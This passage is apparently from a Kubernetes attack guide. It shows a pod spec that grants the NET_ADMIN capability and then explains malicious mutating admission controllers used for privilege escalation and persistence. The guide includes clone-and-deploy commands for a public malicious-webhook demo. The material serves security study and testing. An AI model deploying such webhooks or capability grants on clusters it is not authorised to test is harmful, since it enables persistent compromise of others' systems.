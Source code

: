 ```yaml
#  containers:
#  - name: sec-ctx-demo
#    image: busybox
    command: [ "sh", "-c", "apt update && apt install iptables -y && iptables -L && sleep 1h" ]
    securityContext:
      capabilities:
        add: ["NET_ADMIN"]
 #   volumeMounts:
 #   - name: sec-ctx-vol
 #     mountPath: /data/demo
 #   securityContext:
 #     allowPrivilegeEscalation: true
```

See the logs of the proxy:

```bash
kubectl logs app -C proxy
```

More info at: [https://kubernetes.io/docs/tasks/configure-pod-container/security-context/](https://kubernetes.io/docs/tasks/configure-pod-container/security-context/)

### Malicious Admission Controller

An admission controller **intercepts requests to the Kubernetes API server** before the persistence of the object, but **after the request is authenticated** **and authorized**.

If an attacker somehow manages to **inject a Mutationg Admission Controller**, he will be able to **modify already authenticated requests**. Being able to potentially privesc, and more usually persist in the cluster.

**Example from** [**https://blog.rewanthtammana.com/creating-malicious-admission-controllers**](https://blog.rewanthtammana.com/creating-malicious-admission-controllers):

```bash
git clone https://github.com/rewanthtammana/malicious-admission-controller-webhook-demo
cd malicious-admission-controller-webhook-demo
./deploy.sh
kubectl get po -n webhook-demo -w
```

Check the status to see if it's ready:

```bash
kubectl get mutatingwebhookconfigurations
kubectl get deploy,svc -n webhook-demo
```

![mutating-webhook-status-check.PNG](https://cdn.hashnode.com/res/hashnode/image/upload/v1628433436353/yHUvUWugR.png?auto=compress,format\&format=webp)

Then deploy a new pod:

```bash
kubectl run nginx --image nginx
kubectl get po -w
```
